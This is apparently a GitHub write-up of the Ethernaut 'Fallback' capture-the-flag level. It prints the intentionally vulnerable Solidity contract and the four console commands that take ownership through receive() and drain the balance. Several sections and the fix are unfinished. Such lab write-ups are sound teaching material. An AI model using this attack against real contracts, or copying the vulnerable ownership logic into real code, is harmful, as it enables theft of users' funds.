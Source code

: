 # Fallback challenge - Level 1 🚧 Update In Progress 🏗
<p align="left"> <img src="https://komarev.com/ghpvc/?username=Level1&label=Repository%20views&color=0e75b6&style=flat" alt="wrappedusername" /> </p>

```yml
This smart contract has a vulnerability, because:
```

- the require statement inside the fallback function receive() is making it an easy target to exploit,  

```Solidity

receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender; 
}
```

## 🆘 The victim contract in detail

```yml
The victim contract imports OpenZeppelin's SafeMath contract here:
```
- There is nothing much going on here, I personally would use a fixed pragma, but that is a much smaller detail,
- I would like to focus on the main purpose of the contract as a whole, a white paper is something smart contract developers should make a habit of creating during the intial build phase. The white paper gives everyone that high level view of the project and the intentions of the smart contract.
- We also have to take into account any other smart contracts or interfaces that this smart contract in question uses within it's sphere of influence.
- As for this smart contract, and probably most others too, there is no white paper so we must make an educated guess about the intentions of the contract from the information that we can find, 
- of coarse this smart contract is intended to be used as an example in a tutorial/challenge, so this explains why there are such obvious and critical vulnerabilities in the smart contract. 

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
```

- I am not sure why OpenZeppelin's Ownable contract is not used here,
- I recommend using these libraries instead of implementing your own version,
  - here is why: 
    - re-writing something that is already available is a waste of time that could introduce bugs,
    
```yml
I recommend using and modifying available libraries like OpenZepellin's Ownable, 
SafeMath, etc. to conform to the project's specific needs.
```

```Solidity
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }
```

- TODO

```Solidity
 function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

```


## ⚠️ The vulnerability in detail

```yml
The vulnerability:
```
- TODO

```Solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender; 
}
```

- TODO

```JavaScript
/** 
* @notice This fallback function receive() is the main attack target, in order to pass the 
* require statement player must use function contribute() 1 wei will be enough, using the console
* player calls await contract.contribute({value: 1}), then player calls await contract.sendTransaction({value: 1}),
* player can verify ownership with await contract.owner(), player will now be able to withdraw all tokens. 
*/

await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();

```

## 💥 The attack in detail

```yml
The attack:
```

- the [top level](https://developer.chrome.com/blog/new-in-devtools-62/#await) JavaScript awaits the player will use in the attack 💥,

```JavaScript
await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();
```
- the contribution to satisfy this require statement,

```Solidity
&& contributions[msg.sender] > 0

```

```JavaScript
await contract.contribute({value: 1});
```

- the value sent in the transaction to satisfy this require statement,

```Solidity
msg.value > 0 
```

```JavaScript
await contract.sendTransaction({value: 1 });
```

- checking to see if it worked,

```JavaScript
await contract.owner();
```

- 💸 withdrawing everything!

```Solidity

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
```

```JavaScript
await contract.withdraw();
```


## 🩺 How can we fix this vulnerablity in the victim contract?

- I would create more robust require statements, inside a seperate named function for receiving tokens how I prefer,

```Solidity

```











  
